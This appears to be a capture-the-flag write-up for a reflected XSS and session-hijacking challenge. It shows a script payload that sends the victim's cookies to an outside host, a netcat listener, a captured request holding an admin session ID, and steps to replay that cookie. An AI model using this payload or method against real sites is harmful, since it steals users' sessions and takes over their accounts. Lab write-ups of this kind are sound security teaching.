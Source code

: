 # CTF101: Challenge 6

## Type of attack 

- Reflected XSS
- Session hijacking

## Flag

*Forgot to save the flag...*

---

## Inject XSS on wall

```html
<script>window.location = 'http://nc.irvinlim.com/' + encodeURIComponent(document.cookie);</script>
```

Ideally it should be an AJAX call that wouldn't be noticed, but for this demo we can just use `window.location` since there is an admin bot that will evaluate JavaScript, whose session we are trying to steal.

## Set up listening server

In the example above, I set up a `netcat` server which listens on port `3123`, and reversed proxied `nc.irvinlim.com:80` to `127.0.0.1:3123` on the server.

## Listen for requests from admin

Set up the server:

```shell
nc -l 3123
```

Click the button on the wall page to request admin to visit the wall which contains the reflected XSS. You should see the request come in like this:

```http
GET /PHPSESSID%3Dvuggr3e7udoamuadm5lnadnf24 HTTP/1.1
Connection: upgrade
Referer: http://128.199.224.160:3005/wall.php?uid=1i7qsEaqV3AMvnRN1adK
Host: nc.irvinlim.com
X-Real-IP: 172.68.253.139
X-Forwarded-Host: nc.irvinlim.com
X-Forwarded-Server: nc.irvinlim.com
X-Forwarded-For: 128.199.224.160, 172.68.253.139
CF-IPCountry: SG
CF-RAY: 39b86b91e5e5194a-HKG
X-Forwarded-Proto: http
CF-Visitor: {"scheme":"http"}
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) PhantomJS/1.9.0 Safari/534.34
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en,*
CF-Connecting-IP: 128.199.224.160
```

## Hijack the session

Using the EditThisCookie Chrome extension or otherwise, change the `PHPSESSID` cookie value to the session ID that we retrieved from XSS.

Log in and the flag should be visible.
